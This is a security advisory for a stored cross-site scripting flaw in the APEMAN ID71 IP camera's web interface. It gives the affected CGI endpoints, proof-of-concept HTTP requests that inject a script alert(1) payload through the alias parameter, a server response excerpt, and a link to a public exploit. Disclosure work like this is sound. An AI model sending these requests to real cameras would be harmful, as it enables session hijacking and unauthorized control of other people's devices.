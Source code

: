 ## APEMAN ID71 IP Camera — Stored Cross‑Site Scripting (XSS) in alias parameter

- **Vendor/Product**: APEMAN ID71 IP Camera (embedded web interface using GoAhead)
- **Component**: Web management UI (`set_alias.cgi`, `get_status.cgi`)
- **Vulnerability Class**: Cross-Site Scripting (Stored)
- **CWE**: CWE-79 Improper Neutralization of Input During Web Page Generation (XSS)
- **Attack Vector**: Network (HTTP)
- **Authentication**: Required to store payload (low-privileged user sufficient); execution occurs when authenticated users view affected pages
- **Affected Versions**: Observed on device reporting `app_version="EN75.8.53.20"` (exact range unknown; others likely affected)

### Summary
The camera’s web interface does not properly encode the user-supplied `alias` value before embedding it into JavaScript. When `alias` is set via `set_alias.cgi`, it is stored and later emitted by `get_status.cgi` as a JavaScript string without context-appropriate encoding. An authenticated attacker can inject arbitrary JavaScript that will execute in the browser of any user viewing pages that consume this variable, enabling session hijacking and unauthorized actions within the victim’s session.

### Screenshots
![Alias configuration in the web UI with injected payload](./GUI-Setting-Alias.png)
_Figure 1: Setting the device alias to a JavaScript payload via the settings page._

![Alert box demonstrating XSS execution](./XSS.png)
_Figure 2: Execution of the injected script in the authenticated user’s browser._

![Status page where the injected alias is reflected into JavaScript](./Camera-Status.png)
_Figure 3: Status interface consuming `alias` from `get_status.cgi`, leading to script execution._

Example server response excerpt showing the vulnerable emission:
```javascript
var alias="<script>alert(1)</script>";
var deviceid="VSTD174434AQBAR";
var sys_ver="218.53.203.117";
var app_version="EN75.8.53.20";
// ...
```

### Proof of Concept (PoC)
Store the payload as the alias (requires any valid authenticated session):
```http
GET /set_alias.cgi?alias=%3Cscript%3Ealert(1)%3C%2Fscript%3E&next_url=alias.htm&loginuse=admin&loginpas=xxxxxxxx HTTP/1.1
Host: <camera-ip>:<port>
Authorization: Digest <valid-credentials>
```

Trigger execution by visiting a page that reads device status (e.g., `get_status.cgi` or admin dashboard):
```http
GET /get_status.cgi HTTP/1.1
Host: <camera-ip>:<port>
Authorization: Digest <valid-credentials>

Response:
....

var alias="<script>alert(1)</script>";
var deviceid="VSTD174434AQBAR";
var sys_ver="218.53.203.117";
var app_version="EN75.8.53.20";
```

### Public Exploit 
- https://github.com/juliourena/APEMAN-Camera-PoCs/blob/main/XSS/apeman_id71_xss_poc.py

### Impact
- **Confidentiality**: High — theft of session tokens, credentials, and configuration data
- **Integrity**: High — arbitrary actions in the victim’s authenticated context (change settings, add users)
- **Availability**: None direct

### Root Cause
- Missing context-aware output encoding for user-controlled data embedded into JavaScript
- Insufficient input validation for `alias`

### Credits
- Research and report: Julio Ureña
